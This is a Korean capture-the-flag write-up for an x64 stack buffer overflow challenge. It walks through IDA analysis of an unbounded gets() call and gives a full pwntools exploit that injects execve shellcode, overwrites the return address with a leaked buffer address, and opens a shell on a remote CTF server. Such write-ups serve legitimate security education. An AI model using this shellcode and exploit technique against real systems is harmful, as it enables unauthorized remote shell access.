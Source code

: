 ## 배경지식     
이 전 문제인 x64 buffer Overflow 문제를 풀어오거나 아님 write-up을 보고 오면 이해가 좀 더 쉬울것이다.    

-------------------------------------- 
## 문제풀이    
일단 문제를 먼저 실행해보자.    
![run1](run1.PNG)    
buf의 주소를 주는데, 주소가 바뀐다.   
IDA로 파일을 뜯어보면,  
![IDA3](IDA3.png)    
rbp-6D30 위치에 문자열 변수가 있고,  gets 함수가 있는 걸로 봐선 ret까지 BOF를 일으켜 쉘코드를 넣으면 되는 방식인듯하다.    
![IDA1](IDA1.PNG)     
문자열 v4의 주소를 출력하고 gets(&v4), 크기제한이 없으므로 v4에 쉘코드와 ret까지 BOF를 일으키고, ret에 출력해준 v4의 주소를 넣으면 될 것 같다. 
이때 약간 헷갈릴 수 있는 것이 이 파일은 64비트 기반이기 때문에 sfp, ret등 주소의 길이가 8byte라는 것만 잊지 않으면 된다.   
v6의 위치가 rbp-6D30이므로 6D30-쉘코드 길이 + sfp만큼 BOF를 일으키면 될 것이다!

payload를 짜보면 payload = Shell(31) + Dummy(27,929) + bufAddr(8) 

## 코드   
```python   
from pwn import *
p = remote("ctf.j0n9hyun.xyz",3005)
shell = "\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"
lange = 0x6D30
p.recvuntil("buf: ")
addr = int(p.recv(14),16)
payload = shell
payload+='B'*(lange - 31+8)
payload+=p64(addr)
p.sendline(payload)
p.interactive()
```   

